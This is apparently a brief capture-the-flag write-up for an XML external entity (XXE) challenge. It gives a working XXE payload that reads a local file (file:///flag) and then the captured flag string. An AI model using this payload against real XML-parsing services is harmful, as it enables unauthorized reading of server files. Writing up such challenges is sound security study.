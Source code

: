 ![](2023-04-03-10-47-16.png)

Simple XXE Challenge.

Payload: `<?xml version='1.0' encoding='UTF-8'?>  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag"> ]> <input><xmen>&xxe;</xmen></input>`

Flag: `RS{XM3N_L0R3?\_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`
